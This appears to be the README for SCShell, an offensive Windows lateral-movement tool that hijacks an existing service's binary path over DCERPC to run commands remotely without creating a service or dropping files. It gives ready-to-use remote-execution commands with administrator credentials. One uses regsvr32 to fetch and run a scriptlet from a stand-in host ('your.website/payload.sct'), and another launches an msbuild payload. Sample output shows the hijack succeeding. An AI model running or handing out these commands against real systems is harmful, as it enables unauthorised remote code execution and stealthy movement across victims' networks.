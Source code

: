 # SCShell

Fileless lateral movement tool that relies on ChangeServiceConfigA to run command. The beauty of this tool is that it doesn't perform authentication against SMB everything is performed over DCERPC.

The utility can be used remotely WITHOUT registering a service or creating a service. It also doesn't have to drop any file on the remote system* (Depend on the technique used to execute)

# How it work

Instead of creating a service it simply remotely open a service and modify the binary path name via the `ChangeServiceConfigA` API.

Then it starts the service.

Once the execution is completed the service binary path is reverted to the original one. The original service path is extracted using `QueryServiceConfigA`.

Everything is happening over DCERPC including the authentication.

![network](https://raw.githubusercontent.com/Mr-Un1k0d3r/SCShell/master/network.png)



# Usage

The current build is written in `C` but I will port it to `C#` and `PowerShell`.

```
Usage:
SCShell.exe target service payload username domain password
```

`target` can be set to `local` to run the payload locally

Remote execution
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /c C:\windows\system32\regsvr32.exe /s /n /u /i://your.website/payload.sct scrobj.dll" administrator . Password
```

I recommend using `C:\windows\system32\cmd.exe /c` to make sure to payload will not be killed once the service stop. You NEED to use the full path.

You can also use a msbuild payload
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" administrator . Password
SCShell ***
Trying to connect to 192.168.197.131
Username was provided attempting to call LogonUserA
SC_HANDLE Manager 0x009ED250
Opening XblAuthManager
SC_HANDLE Service 0x009ED1B0
Service path was changed to C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj
Service was started.
```

I'm using the XblAuthManager as the target which is the Xbox Accessory Management Service

# Compiling from source

The code was compiled on Windows using GCC Mingw compiler

# Credit
Mr.Un1k0d3r RingZer0 Team
Tazz0 for the moral support
